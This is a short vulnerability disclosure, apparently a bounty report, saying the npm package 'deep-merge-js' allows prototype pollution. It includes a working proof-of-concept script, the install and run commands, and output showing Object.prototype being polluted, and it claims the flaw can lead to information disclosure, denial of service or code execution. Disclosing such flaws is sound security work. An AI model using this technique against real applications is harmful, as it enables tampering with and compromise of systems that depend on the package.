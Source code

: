 # Description

`deep-merge-js` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const merge = require('deep-merge-js')

console.log(`Before: ${{}.polluted}`)
merge(constructor.prototype, {polluted: true})
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i deep-merge-js # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

